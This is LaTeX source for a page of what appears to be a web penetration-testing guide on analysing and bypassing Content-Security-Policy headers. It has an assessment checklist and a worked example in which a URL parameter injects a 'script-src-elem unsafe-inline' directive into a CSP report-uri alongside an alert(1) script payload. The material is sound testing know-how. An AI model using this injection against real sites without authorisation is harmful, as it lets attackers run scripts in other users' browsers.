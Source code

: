 \documentclass[12pt]{article}
\begin{document}
\section{Phase 5: CSP Analysis \& Bypass}

\begin{tcolorbox}[title={\textbf{5.1 CSP Assessment Checklist}}, colback=lightred]
\begin{itemize}[leftmargin=*]
    \item \textbf{Check CSP Headers:}
    \begin{itemize}
        \item Look for \texttt{Content-Security-Policy} header
        \item Analyze directives and sources
        \item Check for \texttt{report-uri} with dynamic parameters
    \end{itemize}
    
    \item \textbf{CSP Injection Testing:}
    \begin{itemize}
        \item Test parameters in CSP headers
        \item Look for \texttt{token} parameters in \texttt{report-uri}
        \item Attempt directive injection
    \end{itemize}
    
    \item \textbf{CSP Bypass Techniques:}
    \begin{itemize}
        \item Inject \texttt{;script-src-elem 'unsafe-inline'}
        \item Use Angular events to bypass script restrictions
        \item Leverage allowed domains for script loading
    \end{itemize}
\end{itemize}
\end{tcolorbox}

\begin{tcolorbox}[title={\textbf{5.2 CSP Injection Example}}, colback=lightblue]
\begin{lstlisting}[basicstyle=\ttfamily\small]
Original CSP:
Content-Security-Policy: default-src 'self'; script-src 'self'; 
report-uri /csp-report?token=default_value

Injection URL:
https://target.com/?search=<script>alert(1)</script>
&token=;script-src-elem 'unsafe-inline'

Resulting CSP:
Content-Security-Policy: default-src 'self'; script-src 'self';
report-uri /csp-report?token=;script-src-elem 'unsafe-inline'
\end{lstlisting}
\end{tcolorbox}
\end{document}
